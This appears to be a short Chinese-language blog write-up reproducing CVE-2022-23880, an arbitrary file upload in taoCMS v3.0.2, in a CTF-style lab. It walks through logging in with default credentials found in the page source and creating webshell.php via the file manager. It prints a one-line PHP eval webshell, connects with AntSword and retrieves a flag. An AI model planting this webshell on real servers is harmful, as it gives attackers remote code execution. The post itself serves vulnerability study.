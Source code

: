 ```yaml
---
title: CVE-2022-23880
subtitle:
date: 2025-03-14T14:14:06+08:00
slug: 35608d4
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/a6f03e544d5ca46e09def5aca5fb9189.png)

taoCMS v3.0.2任意文件上传

![](images/47dd24950e9425573d1042defff4e7a2.png)

进入点击管理，F12查看源码，发现

![](images/1cffc7be416cce565b6747a4af7e3d06.png)

默认账号密码，尝试登陆

![](images/d1e95e841095d90f80cdaa68585ac6c1.png)



文件管理处，新建webshell.php文件，

![](images/11114c589e675274425a76a2d6842e3a.png)

写入一句话木马

```
<?php @eval($_POST['t1ng']);?>
```

右键复制链接

![](images/1a81a7c4d1cb7d180896dd2617e2c7dd.png)

蚁剑连接

![](images/cdbbc79285cd3fd93f7f2f4bedf30a50.png)



拿到flag

![](images/61bf2aed9225f01efa7ee4d03f10e37e.png)

